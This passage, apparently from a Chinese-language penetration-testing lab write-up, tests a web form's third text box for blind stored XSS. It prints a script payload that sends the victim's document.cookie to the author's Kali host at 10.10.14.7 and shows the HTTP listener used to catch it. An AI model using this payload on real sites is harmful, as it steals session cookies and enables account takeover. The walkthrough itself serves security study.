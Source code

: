 ![截图](08e07e7f459c10d08e62724472f38f87.png)

第三个输入框的显示结果为没有提示内容存在安全风险，这意味着该文本框可能存在XSS漏洞的。

![截图](632359fd1c49ba0d493feef66f887bad.png)

因为第三个文本框并不会进行回显操作，因此无法获得警告弹窗显示，所以我们换一种测试思路来判断是否存在XSS漏洞，在该文本框输入：

```javascript
<script>var myimg = new Image();myimg.src = 'http://10.10.14.7/q?='+ document.cookie;</script>
```

> 代码中的ip为我的Kali主机的ip地址。这个脚本的目的是利用图像对象的src属性，将用户的cookie信息发送到http://10.10.14.7/q。
> 
> `var myimg = new Image();` :这行代码创建了一个新的图像对象，名为myimg。
> 
> `myimg.src = 'http://10.10.14.7/q?='+ document.cookie;`:这行代码设置了图像对象的src属性，将其指向一个特定的URL。这个URL包含了用户的cookie信息。document.cookie会获取当前页面的所有cookie，并将其作为查询参数添加到URL的末尾。

![截图](33c946740bdc02922a979df7b9e860e8.png)

在文本框输入xss测试poc后，还需要再Kali主机开启一个http服务：`python3 -m http.server 80`

![截图](05085bf6fbeda8d7a295eb7d89218abe.png)

